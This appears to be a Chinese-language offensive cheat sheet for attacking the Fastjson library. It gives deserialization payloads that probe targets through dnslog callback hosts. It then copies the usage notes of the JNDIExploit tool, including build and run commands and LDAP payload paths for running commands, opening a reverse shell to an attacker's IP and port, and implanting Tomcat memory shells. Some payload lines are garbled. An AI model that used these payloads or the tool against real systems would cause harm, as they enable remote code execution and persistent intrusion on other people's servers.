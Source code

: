 <a name="GHjDE"></a>
### 好文章
[https://github.com/safe6Sec/Fastjson](https://github.com/safe6Sec/Fastjson)
<a name="6op2v"></a>
### DNS探测
Content-Type: application/json

{"@type":"java.net.Inet4Address", "val":"w94zy2.dnslog.cn"}<br /># 未报错poc<br />{"x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}<br />{"x":{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}}<br />{"x":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}<br /># 报错,但仍有效<br />{"x":{"@type":"java.net.Inet4Address","val":"dnslog"}}<br />{"x":{"@type":"java.net.Inet6Address","val":"dnslog"}}<br />{"x":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}<br /># 报错,且返回400,但仍有效<br />{"x":Set[{"@type":"java.net.URL","val":"http://dnslog"}}<br />{"x":{{"@type":"java.net.URL","val":"http://dnslog"}:0}
<a name="WLQUJ"></a>
### jndi回显--JNDIExploit
[https://github.com/feihong-cs/JNDIExploit](https://github.com/feihong-cs/JNDIExploit)

```go
# JNDIExploit
一款用于 ```JNDI注入``` 利用的工具，大量参考/引用了 ```Rogue JNDI``` 项目的代码，支持直接```植入内存shell```，并集成了常见的```bypass 高版本JDK```的方式，适用于与自动化工具配合使用。

## 使用说明

使用 ```java -jar JNDIExploit.jar -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JNDIExploit.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

## Dockerfile
```bash
git clone https://github.com/feihong-cs/JNDIExploit.git
cd ./JNDIExploit
docker build -t jndiexploit .
docker run -it \
    -p 1389:1389 \
    -e LDAP_PORT=1389 \
    -p 80:80 \
    -e HTTP_PORT=80 \
    jndiexploit
```

使用 ```java -jar JNDIExploit.jar -u``` 查看支持的 LDAP 格式
```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
```